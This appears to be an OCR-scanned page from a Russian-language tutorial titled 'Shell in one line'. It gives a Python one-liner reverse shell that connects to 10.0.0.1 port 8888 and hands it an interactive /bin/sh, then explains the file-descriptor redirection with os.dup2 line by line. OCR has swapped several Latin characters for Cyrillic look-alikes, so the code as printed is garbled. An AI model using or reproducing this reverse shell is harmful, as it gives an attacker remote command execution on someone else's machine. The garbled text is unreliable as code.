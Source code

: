 # Shell in one line
Чтобы закинуть код на удаленную машину, удобно иметь его в виде одной строки. 
Благо в Python есть все необходимое, чтобы уместить код клиента в одну недлинную строку. 
Вот как она выглядит. 
python -с 'import 
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAМ); 
s.connect(("1О.О.О.1", 8888)); os.dup2 (s.fileno(), О) ; os.dup2 (s.fileno(), 1) ; 
os.dup2(s.fileno(), 2);p=subprocess.call(["/Ьin/sh", "-i"]);'

Ключ -с позволяет передать программу в качестве параметра. 

Чтобы понять, как это работает, нужно знать, что такое файловые дескрипторы. 
Если совсем по-простому, то это некие целые неотрицательные числа, которые возвращаются процессу после того, как он создаст поток ввода-вывода и поток диагностики. 
В UNIX устоявшиеся названия потоков - это О, 1 и 2. О соответствует стандартному вводу процесса (терминал), 1- стандартный вывод (терминал), 2-
поток диагностики (файл с сообщениями об ошибках)

Метод dup2 () предназначен для того, чтобы менять значения файловых дескрипторов. fileno () - это метод 
объекта типа socket, который возвращает файловый дескриптор сокета. А при 
помощи метода dup2 () мы меняем дескрипторы ввода-вывода и ошибок на соответствующие дескрипторы сокета. 
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2) 
То есть, считай, мы взяли и сделали наш сокет полноценным процессом. Что это 
нам дает? Мы можем запустить терминал и использовать его! Для этого нужна вот 
эта строка: 
p=subprocess.call(['/Ьin/sh', '-i']) 
